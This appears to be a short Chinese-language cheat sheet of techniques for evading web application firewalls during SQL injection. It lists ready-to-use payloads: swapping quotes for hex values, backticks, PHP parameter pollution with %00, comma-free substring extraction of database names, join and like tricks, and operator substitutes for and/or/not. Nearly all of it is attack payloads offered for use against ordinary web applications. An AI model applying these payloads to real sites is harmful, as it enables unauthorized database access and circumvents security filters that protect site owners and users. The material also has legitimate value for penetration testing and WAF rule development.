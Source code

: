 
引号绕过

当waf拦截单引号时可以采用双引号绕过

也可以采用将字符串转为十六进制来绕过单引号

 

反引号绕过

反应号在键盘的左上角 ``

加与不加反引号意义相同，但是可以绕过一些检测

 

脚本语言特性绕过

在php中 id=1&id=2

后面的值会自动覆盖前面的值

id=1%00&id=2 union select 1,2,3--+

当waf遇到%00可能会停止检测

但是&后面的值会覆盖前面的值

 

逗号绕过

当waf过滤逗号时

　　substr截取字符串

select * from users where id=1 and 'm'=(select(substr(database() from 1 for 1)));

可以进一步优化 m 换成 hex 0x6D 这样就避免了单引号

select * from users where id=1 and 0x6D=(select(substr(database() from 1 for 1)));

　　min截取字符串

select mid(database() from 1 for 1); 这个方法如上。

　　join绕过

union select 1,2 #等价于 union select * from (select 1)a join (select 2)b

a 和 b 分别是表的别名

　　like绕过

select user() like '%r%';

　　limit offset绕过

 

or and xor not 绕过

and 等于&&

or 等于 ||

not 等于 !

